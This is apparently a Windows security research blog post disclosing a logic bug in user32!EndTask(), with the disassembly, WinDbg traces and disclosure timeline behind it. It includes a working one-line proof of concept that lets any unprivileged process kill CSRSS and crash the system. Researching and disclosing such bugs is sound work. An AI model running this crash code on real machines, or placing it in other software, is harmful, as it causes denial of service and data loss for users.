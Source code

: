 +++
title = "An unexpected logic bug on Win32k"
author = "hugsy"
date = 2020-03-09T00:00:00Z
updated = 2020-03-09T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["windows,kernel,logic,bug,win32k"]

[extra]
header_img = "/img/CDA9D98DF912DE08CB61AD0A3A148723A37BC3F3.png"
+++

## The short version

The short version is that there's a small logic bug in  `user32!EndTask()` which doesn't really check the `HWND` handle passed when forcefully killing the process, allowing unprivileged process to BSoD the host by killing the critical process `csrss`. And as a bonus the PoC code #FitsInATweet:

```c
int WinMain(HINSTANCE h, HINSTANCE ins, LPSTR cmd, int nb)
{
    EndTask(GetDesktopWindow(), 0, 1);
    return 0;
}
```

Just compile, run (here on a build 19569.1000 x64) and enjoy:

![bsod](https://i.imgur.com/DRxULeh.png)


## The less short version

Reversing `Win32k.sys` driver has been my hobby lately mostly to understand it (finally) seriously - if there is such a thing. This is a really small funny logic bug I encountered while reversing it, which I don't feel too bad disclosing since there is [no security exploitability](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria) (simply annoying your sysadmin).


### The juicy part

The legacy function [EndTask](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-endtask) can be used to forcefully close the specific window whose handle is passed as argument, and free all associated resources. Although deprecated according to the MSDN, it is still callable even on the latest Windows versions.

The function `user32!EndTask()` is merely a wrapper designed to forward some specific messages to the [CSRSS](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem) via an ALPC, using the exported function
`ntdll!CsrClientCallServer` with the ApiNumber 0x30401. Easily enough, the function takes the handle to the window to shut down. The function operates with the thread's token, and is unprivileged. Starting playing around, I remembered that `GetDesktopWindow()` will return a valid handle to the desktop window, but has [many interesting properties](https://devblogs.microsoft.com/oldnewthing/20040224-00/?p=40493) including that that it is owned by `csrss.exe`. That can be quickly demonstrated using the following code:

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char msg[1024]={0,};
    HWND hwnd = GetDesktopWindow();
    DWORD dwProcessId;
    GetWindowThreadProcessId(hwnd, &dwProcessId);
    sprintf(msg, "hwnd=%p pid=%lu\n", hwnd, dwProcessId);
    MessageBoxA(0,msg,0,MB_OK);
    return 0;
}
```
which will output the PID of CSRSS

![finding_csrss](https://i.imgur.com/Q4XsJZP.png)


In turn, CSRSS will consume that message and call `winsrvext!SrvEndTask()` then `winsrvext!EndTask()`. In this function, in order to determine the process to terminate `csrss` will invoke `GetWindowThreadProcessId()` and will use the found process id value to look into the [`CSR_PROCESS`](http://www.geoffchappell.com/studies/windows/win32/csrsrv/api/process/process.htm) linked
list (via `csrsrv!CsrRootProcess`), and find the `CSR_PROCESS` structure associated to such PID. From `winsrvext.dll`:

```asm
_EndTask      ; NTSTATUS __fastcall EndTask(HWND hWnd, int a2)
_EndTask      _EndTask        proc near               ; CODE XREF: SrvEndTask+119↓p
_EndTask                                              ; DATA XREF: .pdata:000000000001D21C↓o
[...]
_EndTask+A7                   lea     rdx, [rsp+120h+dwProcessId] ; lpdwProcessId
_EndTask+AC                   mov     rcx, rdi        ; hWnd
_EndTask+AF                   call    cs:__imp_GetWindowThreadProcessId
```

### The bug

And therein lied the bug: as shown above with the small C snippet, the owner of `GetDesktopWindow()` is `csrss` itself, therefore the lookup will return the `CSR_PROCESS` structure of `CSRSS` (which happens to be the first entry in the `CsrRootProcess` linked list). Finally, `winsrvext!EndTask()` will proceed to call `ntdll!NtTerminateProcess()` passing the handle to the
process `CSRSS`, which has the value `(HANDLE)-1` (i.e. `GetCurrentProcess()`). WinDbg can be used to confirm that behavior:

```txt
0: kd> dps poi( csrsrv!CsrRootProcess )
00000218`7d004550  00000000`00000c14 <- CSR_PROCESS.ClientId
00000218`7d004558  00000000`00000c18
00000218`7d004560  00000218`7d008bf0 <- CSR_PROCESS.LinkList
00000218`7d004568  00000218`7d04b3a0 <- CSR_PROCESS.ThreadList
00000218`7d004570  00000218`7d005368 [...]
00000218`7d004578  00000218`7d0486b8
00000218`7d004580  00000000`00000000
00000218`7d004588  00000000`00000000
00000218`7d004590  00000000`00000000
00000218`7d004598  00000000`00000000
00000218`7d0045a0  ffffffff`ffffffff <<- CSR_PROCESS.ProcessHandle (i.e. value passed to NtTerminateProcess)
00000218`7d0045a8  00000040`00000005
[...]
```

Therefore, this will make `CSRSS` killing itself when invoking calling the syscall `nt!NtTerminateProcess(GetCurrentProcess(), 0 )`. As a critical process, killing CSRSS will immediately result in a BSoD, which BugCheck clearly shows. Also note that this crash can be triggered by any user even with any privilege. In WinDbg the faulting stack trace of our BSoD retraces exactly everything we show:

```txt
CRITICAL_PROCESS_DIED (ef)
        A critical system process died
[...]
Arguments:
Arg1: ffffe30f47ce14c0, Process object or thread object
Arg2: 0000000000000000, If this is 0, a process died. If this is 1, a thread died.
[...]

STACK_TEXT:
ffff8803`2a71f280 fffff801`795c75c1 : [...] : nt!PspCatchCriticalBreak+0xa9
ffff8803`2a71f320 fffff801`79439fc0 : [...] : nt!PspTerminateAllThreads+0x175e3d
ffff8803`2a71f390 fffff801`79439da9 : [...] : nt!PspTerminateProcess+0xe0
ffff8803`2a71f3d0 fffff801`78fd2d15 : [...] : nt!NtTerminateProcess+0xa9
ffff8803`2a71f440 00007ff9`83b5c644 : [...] : nt!KiSystemServiceCopyEnd+0x25
000000b6`d35befd8 00007ff9`809066e5 : [...] : ntdll!NtTerminateProcess+0x14
000000b6`d35befe0 00007ff9`80906bae : [...] : winsrvext!EndTask+0x235
000000b6`d35bf110 00007ff9`80975af4 : [...] : winsrvext!SrvEndTask+0x11e
000000b6`d35bf380 00007ff9`83b2cedf : [...] : CSRSRV!CsrApiRequestThread+0x484
000000b6`d35bf810 00000000`00000000 : [...] : ntdll!RtlUserThreadStart+0x2f
```

## Final words

This was a good lesson, mostly because I would never have thought finding a (cheap) logic bug in an API that is around for decades and probably gleaned at many times by people way smarter.

Also, I've reported more Win32k bugs to MS which I'll be writing up on soon.

That's all for this quick post!

✌

## Disclosure timeline

  * 2019-12-09 : Bug found
  * 2020-02-08 : Finally found some time to do some analysis
  * 2020-02-09 : Issue submitted to MSRC (case 56511)
  * 2020-03-04 : EWONTFIX
